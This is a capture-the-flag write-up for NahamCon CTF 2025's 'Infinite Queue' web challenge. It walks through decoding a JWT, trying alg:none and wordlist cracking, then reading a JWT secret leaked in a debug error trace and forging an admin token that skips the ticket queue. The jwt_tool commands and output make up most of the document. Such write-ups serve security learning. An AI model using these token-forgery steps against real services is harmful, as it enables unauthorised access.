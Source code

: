 ```yaml
---
name: Infinite Queue (2025)
event: NahamCon CTF 2025
category: Web
description: Writeup for Infinite Queue (Web) - NahamCon CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Infinite Queue

## Description

> Oh my god, I just can't with these concert ticket queues. It's gotten out of control.

## Solution

We get through to a band website for `Infinite Queue`, pretty cool.

![](images/0.PNG)

If we click the `Buy Tickets` option, we'll be placed in a queue for a very long time.

![](images/1.PNG)

Checking burp, we see that the `queue_position` is retrieved by sending a JWT token to `/check_queue`. Check the details with [jwt_tool](https://github.com/ticarpi/jwt_tool)


```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] user_id = "'"
[+] queue_time = 1753887841.838836
[+] exp = 5348030521    ==> TIMESTAMP = 2139-06-22 13:02:01 (UTC)
```


The token is signed with `HS256`, symmetric encryption. I try to crack it with rockyou, but fail.


```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -C -d /usr/share/wordlists/rockyou.txt
```


Try it with the `None` alg.


```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -X a

EXPLOIT: "alg":"nOnE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJuT25FIiwidHlwIjoiSldUIn0.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.
```


I actually got a big error trace from using this token.


```json
"error_details":{"debug_mode":false,"environment":{"GPG_KEY":"E3FF2839C048B25C084DEBE9B26995E310250568","HOME":"/root","HOSTNAME":"infinite-queue-68fe983afb25c760-584ffc466-5f47l","JWT_SECRET":"4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC","KUBERNETES_PORT":"tcp://34.118.224.1:443","KUBERNETES_PORT_443_TCP":"tcp://34.118.224.1:443","KUBERNETES_PORT_443_TCP_ADDR":"34.118.224.1","KUBERNETES_PORT_443_TCP_PORT":"443","KUBERNETES_PORT_443_TCP_PROTO":"tcp","KUBERNETES_SERVICE_HOST":"34.118.224.1","KUBERNETES_SERVICE_PORT":"443","KUBERNETES_SERVICE_PORT_HTTPS":"443","LANG":"C.UTF-8","PATH":"/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","PYTHON_SHA256":"8c136d199d3637a1fce98a16adc809c1d83c922d02d41f3614b34f8b6e7d38ec","PYTHON_VERSION":"3.9.22","WERKZEUG_SERVER_FD":"3"},"error":"The specified alg value is not allowed","request_data":{"token":"eyJhbGciOiJuT25FIiwidHlwIjoiSldUIn0.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9."},"time":"2025-05-23T21:24:36.552750"}
```


The notable part is `The specified alg value is not allowed`. I try the JWT editor extension in burp with a few different attacks too, e.g. signing with empty key returns `Signature verification failed`.

Wait, I just realised the `JWT_SECRET` is in the response lol.


```
4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC
```


We can test it with the JWT tool.


```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -C -p 4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC

Password provided, checking if valid...
[+] CORRECT key found:
4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC"
```


OK, we follow it's instructions while setting the queue time to `0`.


```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -S hs256 -p "4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC" -T
```


I set the `user_id` to `admin` and the `queue_time` to `1.0`.


```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJxdWV1ZV90aW1lIjoxLjAsImV4cCI6NTM0ODAzMDUyMX0.CWzWY422QgpBwUJwbeU-tdDyfQ7s1zhinbj6TKMbk74

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] user_id = "admin"
[+] queue_time = 1.0
[+] exp = 5348030521    ==> TIMESTAMP = 2139-06-22 13:02:01 (UTC)
```


When we update the token in burp, we get some good news.


```json
{ "message": "Your turn has arrived! You can now purchase tickets.", "status": "ready" }
```


We can now purchase the ticket.

![](images/2.PNG)

It opens a PDF document containing the flag!

Flag: `flag{b1bd4795215a7b81699487cc7e32d936}`
